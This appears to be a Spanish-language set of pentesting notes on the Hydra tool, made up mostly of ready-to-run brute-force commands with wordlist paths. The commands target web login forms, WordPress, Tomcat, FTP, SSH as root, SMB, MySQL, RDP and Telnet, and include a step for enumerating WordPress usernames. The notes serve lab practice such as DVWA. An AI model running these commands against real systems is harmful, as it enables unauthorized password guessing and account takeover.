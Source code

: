 # Hydra 

Tags: #Hydra 

Es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta, por así decirlo, en servicios de autenticación remotos. Esta herramientas nos ayuda a poder encontrar passwd mediante ataques furtivos. 

- Soporte de múltiples protocolos: Hydra es compatible con una amplia gama de protocolos de autenticación incluyendo: SSH, Telnet, FTP, HTTP, POP3, SMB, etc...
* Fuerza bruta avanzada: Hydra es capas de realizar ataques de fuerza bruta avanzados, incluyendo ataques de diccionario y ataques basados en patrones. 
	* Podemos usar los diccionarios que ya viene en Parrot o Kali Linux (rockyou.txt)
* Modos de operación flexibles: Hydra admite diferentes modos de operación, incluyendo modo de ataque directo, modo de ataque de diccionario y modo de ataque híbrido.
* Capacidad de paralelización: Hydra es capas de realizar múltiples intentos de autenticación simultáneamente, lo que mejora la velocidad y la eficiencia del ataque. 

- Casos de uso:
	- Pruebas de penetración 
	- Auditoria de passwd
	- Recuperación de passwd

```powershell 
# Directorios 'passwords'
❯ /usr/share/wordlists/rockyou.txt
❯ /usr/share/Seclists/Passwords/xato-net-10-million-password-10000.txt
❯ /usr/share/Seclists/Passwords/months.txt
❯ /usr/share/Seclists/Passwords/seasons.txt
❯ /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt
❯ /usr/share/wordlists/metasploit/unix-passwords.txt
❯ /usr/share/wordlists/metasploit/common_passwords.txt

# Directorios 'Users'
❯ /usr/share/Seclists/Usernames/xato-net-10-million-usernames.txt
❯ /usr/share/Seclists/Usernames/top-usernames-shortlist.txt 
❯ /usr/share/metasploit-framework/data/wordlists/unix_users.txt
❯ /usr/share/wordlists/metasploit/unix_users.txt
❯ /usr/share/wordlists/metasploit/common_users.txt

```

## Fuerza bruta a una autenticación digital 

```bash 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get /DIR/ 

	# IP = Dirección IP del servidor que contiene la autenticación
	# DIR = Ruta donde se encuentra el login de autenticación

```

```bash 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -V -I -t 4   

	# /admin = Ruta donde se encuentra el login de autenticación
```

## Fuerza bruta a DVWA

```bash 
❯ hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://IP:8080/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=aaabbbccc; security=low:F=Username and/or password incorrect'

❯ hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://IP:8080/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=aaabbbccc; security=medium:F=Username and/or password incorrect' -V -I 

Nota: 
	1. Los datos salen del 'Inspector > Network' y es la ruta donde se encuentra el login de autenticación
	2. La cookie sale en 'Inspector > Storage'
```

## Fuerza bruta a un CMS

```bash 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -t 64 -F 

	# El formulario debe de cumplir con tres variables
	# 1ra = Ruta desde la raiz hasta el admin.php
	# 2do = Podemos obtener las variables de username y password capturando el trafico con 'Burpsuite' ya que ahi es donde las variables de usuario y variables del diccionario van a ser sustituidas 
	# 3ro = Colocar el mensaje de error, lo podemos encontrar en el codigo del panel del login 'Ctrl + u'
	# IP = La direccion IP de la maquina victima sin el protocolo 'http o https'
	# F = Cuando hydra encuentre unas credenciales validas detendra el proceso y seguira con otro usuario en caso de tener mas 
```

## Hydra fuerza bruta WordPress

```python
# Para identificar los usuarios 
❯ hydra -L users.txt -p something <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username'
❯ hydra -L users.txt -p something <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'  # Otra forma de hacerlo
	# p = Colocar una passwd random, porque lo unico que se busca es el usuario


# Esto se usa para saber la password del usuario que se ha encontrado 'admin'
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -t 15 
	# t = Lanzar las tareas en paralelo al mismo tiempo 


# Si al momento de hacer login en la pagina muestra un mensaje de error, seria de esta manera en donde se colocará el mensaje de error en la sentencia. 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"


# Fuerza bruta a WordPress (Todo lo anterior se obtiene de la página web en 'form action=/login.php') y hay que colocar todas la etiquetas 

	# l (ele) = Usuario de login
	# P = Ruta del diccionario
	# log y pwd = Se encuentra en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que muestra el panel de autenticacion, por si no sirve con el 'S'
```

## Hydra fuerza bruta WebDAV

```python 
❯ hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt ❮IP❯ http-get /webdav/

	# webdav = Directorio de autenticacion 
	# L = Indicas un archivo que disponga de usuarios para login
	# P = Ruta del diccionario o 'archivo que contiene passwds'
```

## Tomcat 

```bash 
❯ hydra -l tomcat -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt <IP> -s 8080 http-get /manager/html/ 

	# s = Indicar el puerto 8080
	# L = /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
	# IP = Direccion IP del servidor que contiene la autenticacion que solicita user/passwd para acceder a la pagina
	# http-get = Ruta que contiene el panel de autenticacion '/manager/html/ o /host-manager/html' 
```

## Hydra fuerza bruta FTP

```ruby
❯ hydra -L Usernames.txt -p ' ' ❮IP❯ ftp      # Fuerza bruta al puerto 21 'FTP' sin colocar password 

❯ hydra -l omar -P /usr/share/wordlists/rockyou.txt ftp://❮IP❯ -t 15 

❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ❮IP❯ ftp -t 4 -I

	# l (ele) = Usuario valido
	# L = Archivo de texto que contiene usuarios 
	# P = Ruta del diccionario de passwords
	# t = Lanzar tareas en paralelo al mismo tiempo
	# I = Saltar la espera 
```

## Hydra fuerza bruta SSH

```bash 
# Una forma de saber los usuarios dentro de la maquina por SSH es:

1. Mirando el '/etc/passwd'
2. Mirando el directorio '/home'
```

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯ -t      # Fuerza bruta al puerto 22 'SSH'

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users' para login
	# t = Lanzar tareas en paralelo al mismo tiempo

❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ❮IP❯ ssh
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://❮IP❯ -t 15 -V -s 2222

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# l (ele) = Usuario login que en este caso es  'root'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# V = Verbosity
	# s = Port y es el puerto al que nos queremos conectar 
```

## Hydra fuerza bruta SMB / SAMBA

```python 
# Si esta  la version 'SMBv1', no podremos usar esta herramienta para Fuerza Bruta, solo con Metasploit

❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://<IP>        # Fuerza bruta en el servidor SMB
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> smb

❯ hydra -L user.list -P password.list smb://<IP> 

	# L = Ruta o archivo que contiene los usuarios para login
	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta MYSQL

```python
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> mysql
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://<IP>

	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta RDP

```python 
# Fuerza bruta a RDP
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP> -s 3333           

	# L = Ruta o archivo que contiene los usuarios para login 
	# P = Ruta o archivo que contiene las passwd
	# s = Especificas el puerto, si no lo haces Hydra asumira que es el puerto 3389
```

## Hydra fuerza bruta Telnet 

```bash 
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> telnet 

	# L = Ruta o archivo que contiene los usuarios para login 
	# P = Ruta o archivo que contiene las passwd
```


